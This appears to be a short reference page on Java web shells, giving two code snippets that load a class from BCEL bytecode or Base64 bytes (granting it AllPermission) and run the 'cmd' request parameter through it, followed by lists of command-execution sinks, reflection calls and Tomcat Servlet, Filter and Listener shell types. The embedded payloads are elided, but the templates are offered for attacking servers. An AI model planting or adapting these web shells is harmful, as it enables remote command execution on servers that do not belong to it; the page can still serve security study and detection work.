 WebShell
========================================

BCEL bytecode
----------------------------------------
.. code :: java

String bcelCode = "...";
response.getOutputStream().write(String.valueOf(new ClassLoader().loadClass(bcelCode).getConstructor(String.class).newInstance(request.getParameter("cmd")).toString()).getBytes());

Custom class loader
----------------------------------------
.. code :: java

response.getOutputStream().write(new ClassLoader() {
@Override
public Class<?> loadClass(String name) throws ClassNotFoundException {
if (name.contains("shell")) {
return findClass(name);
}
return super.loadClass(name);
}

@Override
protected Class<?> findClass(String name) throws ClassNotFoundException {
try {
byte[] bytes = Base64.getDecoder().decode("...");
PermissionCollection pc = new Permissions();
pc.add(new AllPermission());
ProtectionDomain protectionDomain = new ProtectionDomain(new CodeSource(null, (Certificate[]) null), pc, this, null);
return this.defineClass(name, bytes, 0, bytes.length, protectionDomain);
} catch (Exception e) {
e.printStackTrace();
}
return super.findClass(name);
}
}.loadClass("shell").getConstructor(String.class).newInstance(request.getParameter("cmd")).toString().getBytes());
%>

Execute command variants
----------------------------------------
- java.lang.ProcessBuilder#start
- java.lang.Runtime#exec
- TemplatesImpl

Based on reflection
----------------------------------------
- class.forName
- MethodAccessor.invoke
- Method.invoke

Other Shell variants
----------------------------------------
- java.beans.Expression
- java.lang.ClassLoader
- java.net.URLClassLoader
- jdk.nahorn.internal.runtime.Scriptloader
- ObjectInputStream.resolveClass
- ScriptEngine.eval
- ScriptEngineManager
- Toolprovider

Tomcat container
----------------------------------------
- Servlet
- Filter
- Listener
